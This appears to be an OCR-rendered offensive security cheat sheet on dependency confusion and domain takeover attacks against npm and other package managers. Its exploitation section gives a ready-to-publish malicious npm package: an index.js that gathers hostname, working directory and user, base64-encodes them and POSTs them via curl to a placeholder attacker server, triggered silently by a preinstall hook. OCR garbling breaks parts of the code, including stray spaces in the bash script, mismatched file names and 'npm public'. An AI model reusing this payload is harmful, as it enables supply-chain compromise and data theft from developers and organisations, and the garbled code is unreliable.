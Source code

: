 ```yaml
---
layout: blank
pagetitle: Dependency Confusion
---
```


## Domain Name Takeovers
- If source code refers to or uses domains that are no longer active, we can register them and supply malicious code
- A couple examples:
  - Python: `setup(name='my-internal-lib', url='https://internal.examplecorp.com/my-internal-lib', install_requires=['my-internal-lib'])`
  - Node: `import('https://cdn.customcorp-internal.com/pkg.js');`
  - Go: `import "internal.companytools.com/somepkg"`
  - Docker: `FROM registry.dev.oldstartup.com/baseimage:latest`

## Node.js

**Info**
- In Node, npm packages are stated in the package.json file
- Will look something like this:

```
"devDependencies" : {
    "my_test_framework": "^3.1.0",
    "another_dev_dependency": "1.0.0 - 1.2.0"
}
```
- The `^` symbol indicates versions equal to or higher than the version listed

**Package Scopes**
- Packages can be unscoped (public packages on npm)
    - Specified by listing the package name alone
- Can also be scoped
    - Belongs to a user/organization
    - Must be preceded by the organizations's name
        - `@org-name/package` or `@username/package`

**Exploitation**
- Find packages that are used without a reserved namespace (unscoped)
  - This could look like `org-name/package` (without the `@`)
- Node will then use the public package over the private one, allowing code execution
- [Synyc](https://github.com/snyk-labs/snync) is a good tool to scan for and recognize these packages:

```
# !/bin/bash
# Set the base directory to the current working directory
BASE_DIR =$( pwd )
# Loop through each directory in the base directory
for dir in " $BASE_DIR " /*/; do
    # Check if package . json exists in the directory
    if [ -f "${ dir } package . json " ]; then
        echo " Scanning repository : ${ dir }"
        # Run the npx snyk command in the directory
        npx snync -- directory " $dir "
    else
        echo " No package . json found in : ${ dir }. Skipping ... "
    fi
done
```
- Then you just have to host the package yourself

**Creating a Malicious package**
- Create `index.js`:

```
const { exec } = require("child_process");
exec("a=$(hostname;pwd;whoami;) && b=$(echo $a | base64) && curl -X POST {attacker-server} -d $b" , (error, data, getter) => {
    if (error){
        console.log("error", error.message);
        return;
    }
    if (getter){
        console.log(data);
        return;
    }
    console.log(data);
});
```
- Create `package.json`:

```
{
    "name":"{vulnerable_package_name}",
    "version":"{relevant_version_or_higher_if_^}",
    "description":"",
    "main":"main.js",
    "scripts":{
        "preinstall":"node inddex.js > /dev/null 2>&1",
        "test":"echo \"Error: no test specified\""
    },
    "author":"asdasfasd.asfasdasfasd",
    "license":"MIT"
}
```

- Then just run `npm public --access=public` and monitor attacker server